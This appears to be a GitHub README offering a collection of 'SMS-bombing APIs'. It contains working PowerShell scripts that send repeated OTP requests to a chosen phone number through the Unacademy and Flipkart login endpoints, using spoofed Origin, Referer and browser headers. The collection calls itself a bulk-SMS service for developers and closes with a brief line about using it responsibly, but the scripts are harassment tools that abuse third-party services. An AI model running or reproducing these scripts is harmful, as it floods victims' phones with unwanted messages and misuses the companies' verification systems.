 # Bombing-Api Collection 🚀

A meticulously curated and continuously updated repository of **SMS-bombing APIs** designed for developers to access various services for sending bulk SMS. Explore the collection below and stay tuned for exciting new additions coming soon!

## Unacademy SMS API
This API allows sending OTP requests to phone numbers via the Unacademy platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://unacademy.com/api/v3/user/user_check/?enable-email=true"
$body = @{
    phone        = "<PHONE_NUMBER>"
    country_code = "IN"
    otp_type     = 1
    email        = ""
    send_otp     = $true
    is_un_teach_user = $false
} | ConvertTo-Json

$headers = @{
    "Origin"     = "https://unacademy.com"
    "Referer"    = "https://unacademy.com/"
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-Platform" = "0"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## Flipkart OTP Generate API
This API enables sending OTP requests to phone numbers via the Flipkart platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://1.rome.api.flipkart.com/api/7/user/otp/generate"

$body = @{
    loginId = "<PHONE_NUMBER>"   # Must include country code (e.g., +91...)
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.flipkart.com"
    "Referer"        = "https://www.flipkart.com/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-User-Agent"   = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 FKUA/website/42/website/Desktop"
    "Accept"         = "*/*"
    "Content-Type"   = "application/json"
    "Sec-Fetch-Site" = "same-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Sec-Ch-Ua"      = "\"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
    # If required, set Cookie string here
    # "Cookie" = "T=...; at=..."
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## What's Next?
- More APIs will be added soon to expand your options for bulk SMS services.
- Stay updated for enhanced documentation and additional examples.

*Note*: Use these APIs responsibly and in compliance with applicable laws and terms of service.
